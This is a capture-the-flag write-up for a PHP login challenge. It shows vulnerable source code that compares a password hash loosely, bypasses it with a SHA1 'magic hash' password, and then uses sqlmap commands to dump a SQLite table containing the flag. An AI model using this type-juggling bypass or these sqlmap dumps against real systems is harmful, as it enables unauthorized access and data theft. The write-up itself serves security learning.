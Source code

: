 # why-are-types-weird

## DESCRIPTION
> Jacob is making a simple website to test out his PHP skills. He is certain that his website has absolutely zero security issues.  
Find out the fatal bug in his website.  
**FLAG FORMAT**:
dsc{[a-zA-Z0-9_]+}


## Solution:
* Look at `source.php`
```php
<?php
if (isset($_GET['but_submit'])) {
    $username = $_GET['txt_uname'];
    $password = $_GET['txt_pwd'];
    if ($username !== "admin") {
        echo "Invalid username";
    } else if (hash('sha1', $password) == "0") {
        session_start();
        $_SESSION['username'] = $username;
        header("Location: admin.php");
    } else {
        echo "Invalid password";
    }
}
```
* As we can see there is a strict comparison`=== / !==` happening for the username and loose comparison`==/!=` happening for password 

|Loose Comparison|Strict Comparison|
|---|---|
|**Only value** is checked and **NOT** the type of the variable|Both **value** and **Type** are checked|
|**==** or **!=** | **===** or **!==**|
* [Read here on Type Juggling in PHP](https://medium.com/@Asm0d3us/part-1-php-tricks-in-web-ctf-challenges-e1981475b3e4)
* If we look closely at the source code we can see that there is a loose comparison (==) between the SHA1 hash and 0, we can exploit this comparison.
* So somehow we need to find a value whose SHA1 hash value starts with `0e`
* I used this [Git repository](https://github.com/spaze/hashes/blob/master/sha1.md) to find the SHA1 hash 
* `admin:aaroZmOk`
* We are able to login with the above credentials
* We can enter different ids in the box and we get some credentials but they are of no use
* From id we get username and passwords
	* `user1:password1`
	* `user2:password123`
	* `amitheadmin:dsc{n0_1m_n0t_th3_4dm1n}`
* My next thought was to use `sqlmap`
* Capture request using burpsuite
* Save the request to a `.raw` file
* Enumerate using `sqlmap`
* Commands:
	* `sqlmap -r request.raw --dbms=SQLite --tables`
	* `sqlmap -r request.raw --dbms=SQLite -T power_users`
	* `sqlmap -r request.raw --dbms=SQLite -T power_users --dump`  
* We get the flag in the `power_users` table
* FLAG:  
`dsc{tYp3_juGgl1nG_i5_cr4zY}`

## Resources:
- https://medium.com/@Asm0d3us/part-1-php-tricks-in-web-ctf-challenges-e1981475b3e4
- https://github.com/spaze/hashes/blob/master/sha1.md
